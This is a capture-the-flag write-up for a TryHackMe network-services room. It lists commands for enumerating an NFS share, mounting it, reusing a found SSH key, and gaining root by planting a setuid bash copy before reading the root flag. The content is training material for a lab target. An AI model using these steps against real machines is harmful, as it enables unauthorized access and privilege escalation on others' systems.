 # Network Services 2

[Network Services 2 Room](https://tryhackme.com/room/networkservices2)

Enumerating and Exploiting More Common Network Services & Misconfigurations

## NFS

| Title | IP Address |
| :---- | :---- |
| nfs2 | 10.10.111.116 |

LHOST:

```bash
sudo nmap -p- -sV -sC -T4 10.10.111.116
showmount -e 10.10.111.116
mkdir /tmp/mount
sudo mount -t nfs 10.10.111.116:/home /tmp/mount/ -nolock
cd /tmp/mount
cd c********/.ssh
ssh -i id_rsa c********@10.10.111.116
sudo vi cp
```

> ```
> #!/usr/bin/python3
> import os
> os.system("cp /bin/bash .")
> ```

```bash
chmod +xs cp
```

RHOST:

```bash
./cp
```

LHOST:

```bash
sudo chown root:root bash
sudo chmod +xs bash
```

RHOST:

```bash
./bash -p
cat /root/root.txt
```

> `THM{***_***_*****}`
